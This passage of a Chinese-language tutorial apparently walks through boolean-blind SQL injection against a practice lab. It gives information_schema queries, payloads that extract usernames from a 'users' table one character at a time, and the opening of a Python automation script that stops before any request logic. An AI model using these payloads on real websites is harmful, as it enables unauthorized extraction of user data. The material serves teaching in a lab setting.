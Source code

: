 ```
SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 8,1;
# LIMIT 8,1 为查询 users 表中的第9个字段名，这是未排除其它库的users表的结果
```

<img src="图片\Snipaste_2023-01-20_14-17-49.png" alt="Snipaste_2023-01-20_14-17-49" style="zoom:67%;" />

获取 users 表中字段数据的数量

```
?id=1'and if ((select count(username) from users)=3,1,0) --+
```

获取字段数据的长度，limit 0,1 表示第一个字段数据的长度

```
?id=1'and if ((select length(username) from users limit 0,1)=8,1,0) --+
```

获取字段数据

```
?id=1'and if (ascii(substr((select username from users limit 0,1),1,1))=122,1,0) --+
```

payload 已经解决了，现在该写 python 脚本了

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-


import requests
import optparse


# 存放数据库名变量
DBName = ""
# 存放数据库表变量
DBTables = []
# 存放数据库字段变量
DBColumns = []
# 存放数据字典变量,键为字段名，值为字段数据列表
DBData = {}
# 若页面返回真，则会出现You are in...........
flag = "You are in..........."

# 设置重连次数以及将连接改为短连接
```